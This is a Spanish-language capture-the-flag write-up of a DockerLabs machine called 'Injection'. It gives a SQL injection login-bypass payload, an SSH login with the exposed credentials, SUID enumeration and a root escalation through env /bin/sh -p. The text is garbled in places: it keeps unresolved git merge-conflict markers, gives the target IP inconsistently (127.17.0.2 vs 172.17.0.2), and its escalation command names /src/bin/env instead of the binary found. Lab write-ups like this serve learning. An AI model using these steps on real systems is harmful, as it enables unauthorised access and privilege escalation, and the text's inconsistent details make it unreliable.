 # Información de la Máqina
    ## Nombre: Injection
    ## Tipo: DockerLabs
    ## IP: 127.17.0.2
    ## Objetivo: Escalada de Privilegios a root

# 1.- Enumeración Inicial
Al acceder al servicio web en el puerto 80, se encuentra un formulario de login.
### Dominio Web:
![Dominio_Web](Injection_Dominio_Web.png)
### Pagina Web:
![Pagina_Web](Injection_Dominio_Web_Pagina.png)

# 2.- Explotación
Se prueba una Injección SQL clásica en el campo username:
```vbnet
' or 1=1-- -
```
<<<<<<< HEAD
![Injeccion_SQL](Injection_Dominio_Web_Injeccion_SQL.png)
Con cualquier contraseña, el login se bypassa con éxito.
El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](Injection_Dominio_Web_Muestra_Contrasena.png)
=======
![Injeccion_SQL](capturas/Injection_Dominio_Web_Injeccion_SQL.png)

### Con cualquier contraseña, el login se bypassa con éxito.
### El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](capturas/Injection_Dominio_Web_Muestra_Contrasena.png)
>>>>>>> 9f596151092de28be68de4e4ea33ac1cdde42ed8

### Evidencia: Contraseña Guardada en:
```bash
Puntos_de_Encuentro/Password_Dylan.txt
```

# 3.- Movimiento lateral
Con las credenciales obtenidas, se establece conexión SSH:
```nginx
ssh dylan@172.17.0.2
```
![SSH](Injection_SSH_Completado.png)
Acceso exitoso como el usuario dylan

# 4.- Escalada de Privilegios
Se enumeran los binarios con bit SUID:
```javascript
find / -perm -4000 2>/dev/null
```
![Numeracion_Binarios](Injection_Escalado_Privilegios_2.png)
Se detecta /usr/bin/env con privilegios elevados.
### Ejecución del binario para escalar:
```bash
/src/bin/env /bin/sh -p
```
![Acceso_Root](Injection_Escalado_Privilegios_3_Final.png)
### Evidencia guardada en:
```bash
Puntos_de_Encuentro/Esclado_Privilegios.txt
```

# 5.- Resultado Final
Acceso root conseguido:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusiones
> La máquina es vulnerable a un SQL Injection que permite burlar la autenticación. 
> Las credenciales expuestas facilitan acceso vía SSH. 
> La presencia de un binario SUID (env) mal configurado permite la escalada directa a root. 
